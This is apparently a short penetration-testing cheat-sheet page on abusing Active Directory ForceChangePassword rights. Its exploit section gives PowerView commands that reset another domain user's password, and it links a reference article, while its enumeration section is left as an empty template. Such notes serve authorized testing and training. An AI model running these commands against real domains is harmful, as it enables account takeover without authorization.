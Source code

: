 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> Write the conditions...

```

```

## 02 - Exploit

```
PS C:\> Import-Module .\PowerView.ps1

$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
Set-DomainUserPassword -Identity "<username>" -AccountPassword $password -Verbose
```

---
## References

### Hacking Articles

- [Hacking Articles: Abusing AD-DACL - ForceChangePassword](https://www.hackingarticles.in/abusing-ad-dacl-forcechangepassword/)